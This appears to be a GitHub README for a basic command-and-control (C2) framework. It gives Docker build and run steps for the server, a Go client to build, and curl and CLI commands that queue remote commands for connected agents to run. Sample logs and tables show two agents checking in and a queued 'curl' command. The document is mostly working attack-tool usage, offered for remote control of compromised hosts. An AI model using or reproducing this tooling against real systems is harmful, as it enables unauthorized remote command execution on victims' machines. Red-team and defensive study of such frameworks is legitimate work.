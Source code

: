 # Basic C2 cradle (http)

**In Development**

## Building server with Docker

```
docker build -t c2server .
```

## Running server with Docker

```
docker run -p 8080:8080 -it c2server
docker run --name c2server -p 8080:8080 -it c2server
[2024-08-30 20:38:40 +0000] [1] [INFO] Starting gunicorn 23.0.0
[2024-08-30 20:38:40 +0000] [1] [INFO] Listening at: http://0.0.0.0:8080 (1)
[2024-08-30 20:38:40 +0000] [1] [INFO] Using worker: sync
[2024-08-30 20:38:40 +0000] [7] [INFO] Booting worker with pid: 7
ZRZ04A 192.168.65.1 has connected with interval 60
```

## Building the client

```
go build client.go
```

## Sending a command to the server (with curl)

```
curl -X POST -d "agentId=<agentId>&command=id" http://127.0.0.1:8080/add-command
```

## Using the cli (ChatGPT 4 generated)

Currently supports list-clients (list connected clients), list-commands (show commands), add-command (Add commmand for client)

```
./cli list-clients
+-----------+--------------+----------+
| CLIENT ID |  IP ADDRESS  | INTERVAL |
+-----------+--------------+----------+
|  ZRZ04A   | 192.168.65.1 |    60    |
|  Y5VVRH   | 192.168.65.2 |    60    |
+-----------+--------------+----------+
```

List all agents connected to the server. 

```
./cli add-command --agent-id Y5VVRH --command "curl sneakerhax.com"
Command added successfully
```

Add command to be executed by an agent/s

```
./cli.go list-commands                                               
+----------+---------------------+
| AGENT ID |       COMMAND       |
+----------+---------------------+
|  Y5VVRH  | curl sneakerhax.com |
+----------+---------------------+
```

List all commands to be executed by an agent/s
